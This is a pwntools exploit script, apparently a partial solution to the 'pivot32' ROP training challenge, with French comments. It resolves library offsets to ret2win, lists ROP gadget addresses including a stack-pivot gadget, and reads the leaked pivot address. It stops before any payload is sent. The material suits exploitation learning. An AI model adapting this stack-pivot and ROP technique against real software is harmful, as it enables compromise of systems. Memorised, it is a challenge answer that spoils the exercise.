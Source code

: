 ```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *
import time
import sys

# Version avec appel de call eax et xchg vs leave

# ret : *pwnme+198
# read : *pwnme+172
gs='''
b *pwnme+198
c
'''
# Set up pwntools for the correct architecture
elf =  ELF('pivot32')
context.binary=elf

libelf = ELF('libpivot32.so')

useless_func=elf.symbols['uselessFunction']
got_foothold=elf.got['foothold_function']
plt_foothold=elf.plt['foothold_function']

lib_foothold = libelf.symbols['foothold_function']
lib_re2win = libelf.symbols['ret2win']
off_ret2win=lib_re2win-lib_foothold


# Les gadgets

# pop eax; ret
g_pop_eax=0x804882c

# mov eax, dword ptr [eax] ; ret
g_mov_eax_eax = 0x8048830

# pop ebx ; ret
g_pop_ebx=0x80484a9

# add eax, ebx ; ret
g_add_eax_ebx=0x8048833

# call eax
g_call_eax = 0x80485f0

# leave; ret
g_leave = 0x080485f5

# 0x0804882e : xchg eax, esp ; ret
g_xchg_eax_esp = 0x0804882e


io = process([elf.path])
if len(sys.argv)>1 and sys.argv[1] == "-d":
    gdb.attach(io,gs)
    time.sleep(1)
    #io = gdb.debug([elf.path],gdbscript=gs)


io.recvuntil(b"to pivot:")
leak = io.recvline().rstrip()
print(leak)
```